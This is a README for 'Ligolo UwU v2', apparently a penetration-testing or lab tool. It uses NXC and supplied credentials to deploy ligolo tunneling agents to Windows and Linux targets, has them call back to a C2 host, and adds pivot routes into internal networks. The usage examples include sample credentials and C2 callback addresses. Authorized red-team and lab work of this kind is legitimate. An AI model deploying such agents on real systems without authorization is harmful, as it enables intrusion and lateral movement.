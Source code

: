 # Ligolo UwU v2

All-in-One Ligolo Manager with direct upload method.
This tool is built of NXC, ensure to have it working prior to use. 

May need to ran as sudo depending on user permissions

## Quick Start

```bash
# Install globally
./ligolo-uwu.sh install

# Download binaries
ligolo-uwu download

# Start proxy
ligolo-uwu proxy 443

# Add target and deploy (machines must be uppercase, I know I know)
ligolo-uwu add WIN01 <ip> <user> <pass> <c2_ip> 443 winrm

# Add route
ligolo-uwu route 172.16.70.0
```

## Syntax

### Installation
```bash
ligolo-uwu install                    # Install globally to /opt
ligolo-uwu clean                      # Clean up all lab files
ligolo-uwu clean --uninstall          # Clean up and uninstall
```

### Proxy Management
```bash
ligolo-uwu proxy <port> [interface]   # Start proxy server
ligolo-uwu download                   # Download latest binaries
```

### Route Management
```bash
ligolo-uwu route <network>            # Add route to ligolo interface
ligolo-uwu route-del <network>        # Remove route from ligolo interface
ligolo-uwu routes                     # List all ligolo routes
```

### Agent Deployment
```bash
ligolo-uwu agent <target_name>        # Deploy to saved target
ligolo-uwu <ip> <user> <pass> <c2_ip> <c2_port> <protocol> [--local-auth] [--debug]
```

### Target Management
```bash
ligolo-uwu add <name> <ip> <user> <pass> <c2_ip> <c2_port> <protocol> [--local-auth]
ligolo-uwu list                       # List saved targets
ligolo-uwu remove <target_name>       # Remove saved target
```

## Protocols
- `ssh` - Linux targets
- `winrm` - Windows targets (PowerShell)
- `smb` - Windows targets (cmd.exe)

## Flags
- `--local-auth` - Use local authentication (winrm/smb)
- `--debug` - Enable debug output

## Examples

```bash
# Windows targets
ligolo-uwu add WIN01 192.168.1.100 administrator 'Password1' 10.10.14.21 443 winrm 
ligolo-uwu add WIN03 192.168.1.100 user 'Pass123!' 10.10.14.21 443 smb

# Linux targets
ligolo-uwu add LINUX01 10.10.110.25 root 'toor' 10.10.14.21 443 ssh

# Quick deploy
ligolo-uwu 192.168.1.100 admin 'pass123' 10.10.14.21 443 winrm

# Routes
ligolo-uwu route 172.16.70.0          # Add /24 route
ligolo-uwu route 10.10.10.0/16        # Custom CIDR
ligolo-uwu routes                     # List routes
ligolo-uwu route-del 172.16.70.0      # Remove route

# Deploy to saved target
ligolo-uwu agent WIN01

# Clean up lab
ligolo-uwu clean
```
